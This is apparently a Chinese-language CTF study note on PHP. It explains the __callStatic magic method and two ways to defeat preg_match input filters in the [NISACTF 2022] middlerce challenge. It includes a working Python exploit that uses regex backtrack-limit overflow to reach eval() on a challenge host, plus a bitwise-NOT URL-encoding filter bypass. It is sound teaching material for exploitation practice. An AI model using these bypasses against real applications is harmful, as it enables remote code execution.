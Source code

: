 ```php
11、__callStatic

它的工作方式类似于 __call() 魔术方法，__callStatic() 是为了处理静态方法调用，PHP5.3.0以上版本有效，PHP 确实加强了对 __callStatic() 方法的定义；它必须是公共的，并且必须被声明为静态的。

同样，__call() 魔术方法必须被定义为公共的，所有其他魔术方法都必须如此。
```

#### 函数绕过

##### 1、preg_match()

```php
preg_match($pattern,$subject [, &$matches [, $flags = 0 [, $offset = 0 ]]]);
```

>$pattern：要搜索的模式，也就是编辑好的正则表达式；
>$subject：要搜索的字符串；
>$matches：可选参数（数组类型），如果提供了 $matches，它将被填充为搜索结果。 $matches[0] 包含完整模式匹配到的文本， $matches[1] 包含第一个捕获子组匹配到的文本，以此类推；
>flags：可选参数，flags 可以被设置为 PREG_OFFSET_CAPTURE，如果传递了这个标记，对于每一个出现的匹配，返回时都会附加上字符串偏移量（相对于目标字符串的）；
>$offset：可选参数，用于指定从目标字符串的哪个位置开始搜索（单位是字节）。

绕过原理：pcre.backtrack_limit

php为了防止DDoS攻击设计了访问上限，一般来说默认的访问限制次数是十万到一百万，只要提交的字符串在匹配函数的调用过程中，函数回溯超过这个上限，那么函数自动返回``false``来结束运行。

下面是一个例子（[NISACTF 2022]middlerce）：

```php
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

php源码中显示了关键的正则表达式，我们通过构造多个``$``来强迫其返回``false``，构造的exp如下：

```python
import threading
import requests
payload = '{"cmd":"?><?= `tail /f*`?>", "$":"' + "$"*(1000000) + '"}'
res = requests.post("http://1.14.71.254:28159/",data = {"letter":payload})
print(res.text)
```

此外，还可以通过url编码取反的方式绕过

```php
<?php
echo urlencode(~("phpinfo();"));
?>
```

之后可以在传入参数的时候进行取反，两次相同的取反结果一致，由于php的动态执行，字符串先以不可读的url编码形式与perg_match进行匹配，然后当进入eval等危险函数时，便会先取反恢复可读性，然后再执行。